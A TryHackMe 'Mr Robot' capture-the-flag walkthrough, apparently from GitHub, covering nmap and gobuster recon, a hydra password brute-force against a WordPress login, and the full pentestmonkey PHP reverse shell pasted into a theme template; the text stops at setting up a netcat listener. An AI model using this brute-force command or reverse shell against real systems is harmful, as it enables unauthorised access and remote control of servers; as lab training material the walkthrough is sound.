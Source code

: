 # TryHackMe-MR_Robot_CTF

H4ppy H4ck1ng Br0


![image](https://user-images.githubusercontent.com/64806211/127406438-801cc0a5-3311-4532-89fa-6c51ef9a77d2.png)
 
 
 
 You can find the room here:
 
 https://tryhackme.com/room/mrrobot
 
 
 
 
 `Description`
 
 
 
 
 Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

Credit to Leon Johnson for creating this machine.
 
 
 ### **Recon__** 
 
 
 
nmap -A 10.10.227.36 shows that there are 997 filtered port and port 22, 80 and 443 are filtered. This means that there is some kind of firewall blocking the nmap scans


Lets open the website anyway. the http site give a browser based shell with only few commands. The https site has a self signed certificate, and it also does the same thing



![hdh](https://user-images.githubusercontent.com/64806211/127406829-e28231df-20b3-4f41-a636-9ffcb6107fae.png)
 
 
 
Before trying some commands let’s view the source code: 



![image](https://user-images.githubusercontent.com/64806211/128553822-6d7c47e2-38cb-4114-b6f3-cb6fbacaaaaa.png)





Okay nothing interesting. Let’s try the commands: 




`prepare - shows us a video`


`fsociety - shows us a video too`


`inform - shows us pictures`



`question - shows us a video`



`wakeup - same`


`join - we need to type in our email but then nothing happens`





Now we need to bruteforce the directories with gobuster:





  
  `gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt` 
  
  
  
  Commands: 
  
  
  
  
  
  `dir – specify that we want to bruteforce the directories`



`-u – for the url`



`-w – path to the wordlist that we want to use`





Output:




![image](https://user-images.githubusercontent.com/64806211/128554730-eb933216-1996-4cbf-9f3c-f8bfa321fba4.png)



Note: I missed to screenshot the robots.txt directory. 






Let’s head into the robots.txt directory: 



`User-agent: *`


`fsocity.dic`



`key-1-of-3.txt`



Sweet. We have a dictionary and the first flag. We can use wget to download them both: 


`wget http://$IP/fsocity.dic`



`wget http://$IP/key-1-of-3.txt`



Now look again at the directories. We can see there is a blog running. Let’s head into “/dashboard”:





![image](https://user-images.githubusercontent.com/64806211/128555625-da04cbdf-09aa-45eb-a3d7-4fcb157f5481.png)
 
 
 
 
 Oh yes we can see we have wordpress running. Maybe we can bruteforce it with hydra using the username elliot?

 
 
 
 
 `hydra -l elliot -P #path to fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -V` 
 
 
 
 
 Commands: 
 
 
 
 
 `-l` – specify the username(-L for username list)
 
 

`-P` – specify the wordlist for password(-p for a single password)


http-post-form – we are bruteforcing the post form so we need this to specify what are we looking for. 




`-V` – verbose mode so we can see every try 


Great we found the password. Now let’s use the 404 template as a reverse shell. Let me show you how: 



navigate to Appearance –> Editor –> then on the right click 404 Template:



![image](https://user-images.githubusercontent.com/64806211/128556964-24b2d9ae-9855-4144-8086-7a06a25aabc3.png) 



Now we need to change the php code with the code from our reverse shell and we can gain access:



#code to use for the reverse shell:



<?php


// php-reverse-shell - A Reverse Shell implementation in PHP


// Copyright (C) 2007 pentestmonkey@pentestmonkey.net


//


// This tool may be used for legal purposes only.  Users take full responsibility


// for any actions performed using this tool.  The author accepts no liability


// for damage caused by this tool.  If these terms are not acceptable to you, then


// do not use this tool.


//


// In all other respects the GPL version 2 applies:


//


// This program is free software; you can redistribute it and/or modify


// it under the terms of the GNU General Public License version 2 as


// published by the Free Software Foundation.


//


// This program is distributed in the hope that it will be useful,


// but WITHOUT ANY WARRANTY; without even the implied warranty of


// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the


// GNU General Public License for more details.


//


// You should have received a copy of the GNU General Public License along


// with this program; if not, write to the Free Software Foundation, Inc.,


// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.


//



// This tool may be used for legal purposes only.  Users take full responsibility


// for any actions performed using this tool.  If these terms are not acceptable to


// you, then do not use this tool.


//


// You are encouraged to send comments, improvements or suggestions to


// me at pentestmonkey@pentestmonkey.net


//


// Description


// -----------


// This script will make an outbound TCP connection to a hardcoded IP and port.


// The recipient will be given a shell running as the current user (apache normally).


//


// Limitations


// -----------


// proc_open and stream_set_blocking require PHP version 4.3+, or 5+


// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.


// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.


//


// Usage


// -----


// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.





set_time_limit (0);


$VERSION = "1.0";


$ip = '**********';  // CHANGE THIS


$port = 1234;       // CHANGE THIS


$chunk_size = 1400;


$write_a = null;


$error_a = null;


$shell = 'uname -a; w; id; /bin/sh -i';


$daemon = 0;


$debug = 0;



//


// Daemonise ourself if possible to avoid zombies later



//



// pcntl_fork is hardly ever available, but will allow us to daemonise



// our php process and avoid zombies.  Worth a try...


if (function_exists('pcntl_fork')) {

 

// Fork and have the parent process exit

 

$pid = pcntl_fork();

 


 
if ($pid == -1) {

  

printit("ERROR: Can't fork");

  

exit(1);

 

}

 


 
if ($pid) {

  

exit(0);  // Parent exits

 
}


 
// Make the current process a session leader

 

// Will only succeed if we forked

 
if (posix_setsid() == -1) {

  

printit("Error: Can't setsid()");

  

exit(1);

 

}




 
$daemon = 1;


} else {

 
printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");


}





// Change to a safe directory


chdir("/");




// Remove any umask we inherited




umask(0);



//



// Do the reverse shell...



//




// Open reverse connection




$sock = fsockopen($ip, $port, $errno, $errstr, 30);




if (!$sock) {

 


printit("$errstr ($errno)");

 


exit(1);



}




// Spawn shell process





$descriptorspec = array(

   



0 => array("pipe", "r"),  // stdin is a pipe that the child will read from

   



1 => array("pipe", "w"),  // stdout is a pipe that the child will write to

   


2 => array("pipe", "w")   // stderr is a pipe that the child will write to



);




$process = proc_open($shell, $descriptorspec, $pipes);




if (!is_resource($process)) {

 

printit("ERROR: Can't spawn shell");

 

exit(1);




}




// Set everything to non-blocking



// Reason: Occsionally reads will block, even though stream_select tells us they won't



stream_set_blocking($pipes[0], 0);




stream_set_blocking($pipes[1], 0);



stream_set_blocking($pipes[2], 0);



stream_set_blocking($sock, 0);




printit("Successfully opened reverse shell to $ip:$port");




while (1) {

 
// Check for end of TCP connection

 

if (feof($sock)) {

  


printit("ERROR: Shell connection terminated");

  

break;

 

}


 


// Check for end of STDOUT

 


if (feof($pipes[1])) {

  


printit("ERROR: Shell process terminated");

  


break;

 


}


 


// Wait until a command is end down $sock, or some

 


// command output is available on STDOUT or STDERR

 


$read_a = array($sock, $pipes[1], $pipes[2]);

 


$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);


 


// If we can read from the TCP socket, send

 


// data to process's STDIN

 


if (in_array($sock, $read_a)) {

  


if ($debug) printit("SOCK READ");

  


$input = fread($sock, $chunk_size);

  




if ($debug) printit("SOCK: $input");

  


fwrite($pipes[0], $input);

 

}




 
// If we can read from the process's STDOUT

 

// send data down tcp connection

 

if (in_array($pipes[1], $read_a)) {

  


if ($debug) printit("STDOUT READ");

  


$input = fread($pipes[1], $chunk_size);

  


if ($debug) printit("STDOUT: $input");

  

fwrite($sock, $input);

 

}


 

// If we can read from the process's STDERR

 

// send data down tcp connection

 


if (in_array($pipes[2], $read_a)) {

  



if ($debug) printit("STDERR READ");

  



$input = fread($pipes[2], $chunk_size);

  





if ($debug) printit("STDERR: $input");

  




fwrite($sock, $input);

 


}



}




fclose($sock);



fclose($pipes[0]);




fclose($pipes[1]);



fclose($pipes[2]);




proc_close($process);




// Like print, but does nothing if we've daemonised ourself




// (I can't figure out how to redirect STDOUT like a proper daemon)





function printit ($string) {

 




if (!$daemon) {

  


print "$string\n";

 



}



}




?> 




Okay now paste it into the 404 template and set up a netcat listener:






